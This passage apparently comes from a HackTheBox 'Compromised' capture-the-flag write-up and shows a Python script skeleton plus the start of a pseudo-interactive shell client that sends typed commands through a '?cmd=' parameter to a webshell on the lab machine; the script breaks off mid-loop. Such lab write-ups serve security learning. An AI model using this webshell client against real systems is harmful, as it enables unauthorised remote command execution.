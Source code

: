 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-05-HackTheBox-Compromissed/2021-10-05-HackTheBox-Compromissed%2009:19:35.png)

# Auto Pseudo Shell

So, let's fully automate it with auto upload of the file and pseudo-interactive shell

We will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-05-HackTheBox-Compromissed/2021-10-05-HackTheBox-Compromissed%2002:31:52.png)

full_pseudo.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Read output from a pseudoshell
# Compromissed HackTheBox

import argparse
import requests
import sys
import os

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
def setPseudo(url):
    url_prefix = url + "?cmd=echo -n $(whoami)':'$(pwd):$ "
    req = r.get(url_prefix, proxies=proxies)
    prefix = req.text
    url_restore = url
    cmd = ""
    while cmd != "exit":
        url = url_restore
        cmd = input(prefix)
        url = url + "?cmd=" + cmd
```